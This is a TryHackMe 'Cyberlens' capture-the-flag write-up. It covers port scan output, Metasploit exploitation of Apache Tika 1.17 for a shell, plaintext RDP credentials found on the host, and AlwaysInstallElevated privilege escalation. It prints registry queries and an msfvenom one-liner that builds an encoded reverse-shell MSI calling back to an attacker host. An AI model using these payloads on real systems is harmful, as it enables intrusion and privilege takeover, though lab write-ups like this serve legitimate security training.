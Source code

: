 -------------

### CTF: THM
### LAB: Cyberlens

--------------

- Rustscan's output

```bash
❯ rustscan -a 10.10.13.13 -- -Pn -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/sensei/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.13.13:139
Open 10.10.13.13:135
Open 10.10.13.13:445
Open 10.10.13.13:3389
Open 10.10.13.13:5985
Open 10.10.13.13:7680
Open 10.10.13.13:47001
Open 10.10.13.13:49664
Open 10.10.13.13:49665
Open 10.10.13.13:49666
Open 10.10.13.13:49667
Open 10.10.13.13:49668
Open 10.10.13.13:49669
Open 10.10.13.13:49670
Open 10.10.13.13:49674
Open 10.10.13.13:61777
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 04:56 WAT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 04:56
Completed NSE at 04:56, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 04:56
Completed Parallel DNS resolution of 1 host. at 04:56, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 04:56
Scanning 10.10.13.13 [16 ports]
Discovered open port 445/tcp on 10.10.13.13
Discovered open port 139/tcp on 10.10.13.13
Discovered open port 135/tcp on 10.10.13.13
Discovered open port 3389/tcp on 10.10.13.13
Discovered open port 49670/tcp on 10.10.13.13
Discovered open port 49665/tcp on 10.10.13.13
Discovered open port 49667/tcp on 10.10.13.13
Discovered open port 5985/tcp on 10.10.13.13
Discovered open port 49674/tcp on 10.10.13.13
Discovered open port 49668/tcp on 10.10.13.13
Discovered open port 49664/tcp on 10.10.13.13
Discovered open port 49666/tcp on 10.10.13.13
Discovered open port 47001/tcp on 10.10.13.13
Discovered open port 61777/tcp on 10.10.13.13
Discovered open port 49669/tcp on 10.10.13.13
Discovered open port 7680/tcp on 10.10.13.13
Completed Connect Scan at 04:56, 0.37s elapsed (16 total ports)
Initiating Service scan at 04:56
Scanning 16 services on 10.10.13.13
Service scan Timing: About 50.00% done; ETC: 04:58 (0:00:53 remaining)
Completed Service scan at 04:57, 57.08s elapsed (16 services on 1 host)
NSE: Script scanning 10.10.13.13.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 11.30s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 2.48s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 04:57
Completed NSE at 04:57, 0.00s elapsed
Nmap scan report for 10.10.13.13
Host is up, received user-set (0.18s latency).
Scanned at 2024-12-06 04:56:17 WAT for 72s

PORT      STATE SERVICE       REASON  VERSION
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
|_ssl-date: 2024-12-06T16:52:26+00:00; +12h54m57s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-06T16:52:13+00:00
| ssl-cert: Subject: commonName=CyberLens
| Issuer: commonName=CyberLens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-12-05T16:49:28
| Not valid after:  2025-06-06T16:49:28
| MD5:   7eae:ac23:c002:9ab2:acb4:1df8:a3e3:cd22
| SHA-1: 62a1:548b:5e82:f693:d6c9:80c3:ce7c:1499:ec6d:94ce
| -----BEGIN CERTIFICATE-----
| MIIC1jCCAb6gAwIBAgIQST7kOJnmgbZK9dCvh9S6oDANBgkqhkiG9w0BAQsFADAU
| MRIwEAYDVQQDEwlDeWJlckxlbnMwHhcNMjQxMjA1MTY0OTI4WhcNMjUwNjA2MTY0
| OTI4WjAUMRIwEAYDVQQDEwlDeWJlckxlbnMwggEiMA0GCSqGSIb3DQEBAQUAA4IB
| DwAwggEKAoIBAQCl/+W1wIfcxL3qN1mAPe0Pgia9AvZSr4nClgMxXHekbvl/7Zbq
| NswodClgotMb4xJIf5ZfpEZwSIT8CnaQYcfFiKwj/jh/eHZBYyzBt8KRKJ19Eday
| tUEPPPA07Z9Mgx8dX6JY7K0v1qEbAufgkAY9dtR89sc06AnJ8eZ5anFc1R6p/zkw
| 67DoiNgmCAKHKxvxvSWoCe51qZN/tvIoVZ9F8PJCWBCi+61lS3m2y8rinbsxr/e+
| 8qQVdKp2jWmZhKxsueZXviEWkO+31nmIO+m7XGZuYMOWb3X9JrrDLOaQ+wdhsH/j
| JBcxL8VMHLoDE0lF0TZOZpMVR39rn+AhtdgxAgMBAAGjJDAiMBMGA1UdJQQMMAoG
| CCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAdnw81bEk
| o8xvqdqATo/etA1oZpArrqJnbAbU4vUZaKM3jrHrqQDkYxRS6p/D5UEsRR+/WVVf
| SLBZ58RHIKsI3aWqKQKcSfT/W5ybS5EatHxnHADgocJeXdyTYbGdWzqFK+sjMRGa
| Li58stL/iL3LiJshRqHgLkpcuObmTqy6gKuh5InB3IYL4P7wCM0vMQHp8/yWeXLj
| dp/VPVYxp1atSa1tpdFj0DK/2a0yg123kKUUiYneL83FbuRVes71Ye7MFE/qIrXP
| j2RykwiVbUYweX/5KlkbU1TpNeR63MHo5t+L/0vvZzgSMk/kYLBB9GdFnDdaZgf2
| 3EQfiI29ZOpsHg==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
61777/tcp open  http          syn-ack Jetty 8.y.z-SNAPSHOT
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
|_http-cors: HEAD GET
| http-methods: 
|   Supported Methods: POST GET PUT OPTIONS HEAD
|_  Potentially risky methods: PUT
|_http-title: Welcome to the Apache Tika 1.17 Server
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 3196/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 30333/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 2586/udp): CLEAN (Failed to receive data)
|   Check 4 (port 36170/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-12-06T16:52:15
|_  start_date: N/A
|_clock-skew: mean: 12h54m56s, deviation: 0s, median: 12h54m56s
```

- The target is a window server.On port 61777,the server is hosting an `Apache Tika 1.17.0`.This version of Apache TIka is vulnerable to RCE as stated in [exploitdb](https://www.exploit-db.com/exploits/47208) and was able to get an exploit on metasploit.

![image](https://github.com/user-attachments/assets/66c8531d-48b0-4196-a15d-d99d2b69d018)

- I set the options as shown below.The reverse_shell module's  settings is the same as the stager settings.

![image](https://github.com/user-attachments/assets/b68f6bfc-6cc7-4cb6-b844-a191aa876a3d)

- Shell access

![image](https://github.com/user-attachments/assets/18783f0d-bf50-4c0f-bbd4-a354e9b769dd)

### Horizontal PrivEsc with exposed credentials

- I checked the user `CyberLens` folder `Documents\Management` and discovered a txt file containing rdp credntials for user `CyberLens`.

![image](https://github.com/user-attachments/assets/c60a53f5-d250-41ac-9df5-43bd1e6b8eff)

- RDP access with Remmina.

![image](https://github.com/user-attachments/assets/0451f8bf-5259-4ed1-8366-0da81b31591b)

### Privesc with Always Install Elevated

- I ran the registy query to check if AlwaysInstallElevated is set to 0x1.This means a user can install a Microsoft Windows package with adminstrative privileges.

Query-

```ps1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![image](https://github.com/user-attachments/assets/70a1b658-9f47-4fef-8361-70c0344324f1)

- I generated an msi payload with msfvenom with the ``one liner below.

```bash
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=80 --encoder x64/xor --iterations 9 --format msi --out wuzzwuzz.msi
```

![image](https://github.com/user-attachments/assets/a169f6ee-2a3a-438b-bef6-cb00ec42b042)

- I received it on the victim machine with `certutil.exe` and executed the msi executable.

![image](https://github.com/user-attachments/assets/da27b439-0788-47ed-be89-0eff7478ae21)

- Adminstrator shell

![image](https://github.com/user-attachments/assets/a418bfe9-ebbc-44a0-ad01-e1ff0a03b29e)

- Flags-:

![image](https://github.com/user-attachments/assets/80b050c4-d6c3-4e86-81e3-5e75d39587ef)

------------

### THANKS FOR READING

------------

### REFERENCES-:

------------

- [Apache Tika](https://www.exploit-db.com/exploits/47208)
- [AlwaysElevatedInstall](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path)

------------











